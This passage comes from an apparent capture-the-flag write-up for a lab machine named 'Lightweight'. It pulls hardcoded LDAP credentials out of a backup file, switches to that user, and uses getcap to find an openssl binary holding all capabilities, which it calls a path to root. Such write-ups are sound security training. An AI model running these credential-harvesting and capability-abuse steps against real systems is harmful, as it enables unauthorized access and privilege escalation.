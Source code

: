 ```text
7z x backup.7z
```

Looking through the files, we find that the file _status.php_ contains the credentials for _ldapuser1_.

```text
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
```

This allows us to pivot to that user.

```text
su - ldapuser1
```

Enumerate the directories and files in the home directory.

```text
[ldapuser1@lightweight ~]$ ls -la
total 1496
drwx------. 4 ldapuser1 ldapuser1    181 Jun 15  2018 .
drwxr-xr-x. 6 root      root          77 Jan 25 19:35 ..
-rw-------. 1 ldapuser1 ldapuser1      0 Jun 21  2018 .bash_history
-rw-r--r--. 1 ldapuser1 ldapuser1     18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1    193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1    246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump
```

That’s odd, the user has his own instance of _openssl_ in his home directory. We can’t run it with sudo or suid privileges, so let’s check if the binary is configured with any linux capabilities.

```text
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```

It’s assigned “_ep_” which means that this openssl binary has ALL the capabilities permitted \(p\) and effective \(e\). We can use this misconfiguration to escalate privileges to root.
